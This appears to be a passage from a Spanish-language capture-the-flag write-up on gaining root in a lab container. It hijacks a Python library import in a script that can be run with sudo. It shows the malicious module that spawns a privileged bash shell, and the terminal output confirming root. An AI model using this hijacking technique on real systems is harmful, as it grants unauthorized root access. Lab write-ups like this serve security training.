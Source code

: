    ```bash
if __name__ == "__main__":
    main()
   ```
  
Vemos que usa la función run y podemos copiar los argumentos que tiene del error. Podemos hacer un hijacking ya que python no encuentra la librería y toma como primer sitio el sitio de trabajo en este caso:
   
   ```bash
import os

def  run(*popenargs, **kwargs):

        os.execv("/bin/bash",["-p"])

```


   ```bash
luisillo@a78c9ed27ee3:/opt$ sudo /usr/bin/python3 /opt/paw.py
Ojo Aqui
Processed data: tHIS IS SOME DUMMY DATA THAT NEEDS TO BE PROCESSED.
Useless calculation result: 499999500000
root@a78c9ed27ee3:/opt# whoami
root
root@a78c9ed27ee3:/opt# 
```

**YA ESTAMOS COMO ROOT.**
